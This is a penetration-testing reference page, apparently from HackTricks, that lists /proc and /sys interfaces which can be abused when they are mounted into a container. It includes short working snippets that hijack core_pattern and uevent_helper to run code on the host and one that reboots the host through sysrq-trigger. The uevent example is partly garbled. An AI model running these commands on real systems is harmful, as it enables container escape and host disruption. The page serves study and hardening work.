 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

The exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

- Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.
- **Testing and Exploitation Example**:

  ```bash
  [ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
  cd /proc/sys/kernel
  echo "|$overlay/shell.sh" > core_pattern # Set custom handler
  sleep 5 && ./crash & # Trigger handler
  ```

#### **`/proc/sys/kernel/modprobe`**

- Detailed in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Contains the path to the kernel module loader, invoked for loading kernel modules.
- **Checking Access Example**:

  ```bash
  ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
  ```

#### **`/proc/sys/vm/panic_on_oom`**

- Referenced in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### **`/proc/sys/fs`**

- As per [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contains options and information about the file system.
- Write access can enable various denial-of-service attacks against the host.

#### **`/proc/sys/fs/binfmt_misc`**

- Allows registering interpreters for non-native binary formats based on their magic number.
- Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.
- Relevant exploit and explanation:
  - [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
  - In-depth tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

- May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.
- Useful for attackers to identify vulnerabilities in the running kernel.

#### **`/proc/sysrq-trigger`**

- Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.
- **Rebooting Host Example**:

  ```bash
  echo b > /proc/sysrq-trigger # Reboots the host
  ```

#### **`/proc/kmsg`**

- Exposes kernel ring buffer messages.
- Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### **`/proc/kallsyms`**

- Lists kernel exported symbols and their addresses.
- Essential for kernel exploit development, especially for overcoming KASLR.
- Address information is restricted with `kptr_restrict` set to `1` or `2`.
- Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Interfaces with the kernel memory device `/dev/mem`.
- Historically vulnerable to privilege escalation attacks.
- More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Represents the system's physical memory in ELF core format.
- Reading can leak host system and other containers' memory contents.
- Large file size can lead to reading issues or software crashes.
- Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternate interface for `/dev/kmem`, representing kernel virtual memory.
- Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

- Alternate interface for `/dev/mem`, representing physical memory.
- Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

- Returns process scheduling information, bypassing PID namespace protections.
- Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

- Provides information about mount points in the process's mount namespace.
- Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- Used for handling kernel device `uevents`.
- Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
- **Example for Exploitation**: %%%bash

  #### Creates a payload

  echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

  #### Finds host path from OverlayFS mount for container

  host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

  #### Sets uevent_helper to malicious helper

  echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

  #### Triggers a uevent

  echo change > /sys/class/mem/null/uevent

  #### Reads the output

  cat /output %%%

#### **`/sys/class/thermal`**

- Controls temperature settings, potentially causing DoS attacks or physical damage.

#### **`/sys/kernel/vmcoreinfo`**

- Leaks kernel addresses, potentially compromising KASLR.

#### **`/sys/kernel/security`**

- Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
- Access might enable a container to disable its MAC system.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

- Exposes interfaces for interacting with EFI variables in NVRAM.
- Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### **`/sys/kernel/debug`**

- `debugfs` offers a "no rules" debugging interface to the kernel.
- History of security issues due to its unrestricted nature.

### References

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}



